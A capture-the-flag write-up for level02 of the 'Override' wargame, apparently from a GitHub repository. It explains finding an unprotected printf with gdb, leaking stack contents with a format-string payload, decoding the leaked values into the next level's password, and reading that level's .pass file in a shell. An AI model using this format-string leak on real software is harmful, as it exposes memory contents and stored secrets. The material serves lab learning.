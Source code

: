 # Override - level02

We've started executing the binary to see what was asking.

It asked a username and a password. If the input was wrong it printed "<username> does not have access!".

Probably a printf was involved.

We verified using gdb and effectively printf was present and we noticed that the one used to print the username is vulnerable since the username string is printed directly.

```
Dump of assembler code for function main:
...
0x0000000000400a96 <+642>:	lea    rax,[rbp-0x70]           <- address of username string
0x0000000000400a9a <+646>:	mov    rdi,rax                  <- username string is pushed as first parameter
                                                               of printf
0x0000000000400a9d <+649>:	mov    eax,0x0
0x0000000000400aa2 <+654>:	call   0x4006c0 <printf@plt>    <- unprotected printf
0x0000000000400aa7 <+659>:	mov    edi,0x400d3a
0x0000000000400aac <+664>:	call   0x400680 <puts@plt>
0x0000000000400ab1 <+669>:	mov    edi,0x1
0x0000000000400ab6 <+674>:	call   0x400710 <exit@plt>
```

Since we have a vulnerable printf we can try a format string attack.

We test using

```
python -c "print '%p ' * 100" | ./level02
```

we can see that since the printf isn't protected some addresses from the stack are printed.

Since the program opened the .pass file from level03 that was pushed to the stack, we only needed to find some addresses convertible in ascii.

```
[...]
0x756e505234376848
0x45414a3561733951
0x377a7143574e6758
0x354a35686e475873
0x48336750664b394d
[...]
```
```
756e505234376848 = unPR47hH (ascii)
45414a3561733951 = EAJ5as9Q (ascii)
377a7143574e6758 = 7zqCWNgX (ascii)
354a35686e475873 = 5J5hnGXs (ascii)
48336750664b394d = H3gPfK9M (ascii)
```

After we reverse them since

```
unPR47hH (ascii) <=> Hh74RPnu (reversed)
EAJ5as9Q (ascii) <=> Q9sa5JAE (reversed)
7zqCWNgX (ascii) <=> XgNWCqz7 (reversed)
5J5hnGXs (ascii) <=> sXGnh5J5 (reversed)
H3gPfK9M (ascii) <=> M9KfPg3H (reversed)
```

Adding them up we have the password to get to the level03 shell that is also the flag.

```
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H

===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: 
--[ Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
*****************************************
Greetings, !

$ whoami
level03

$ cat ~level03/.pass
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
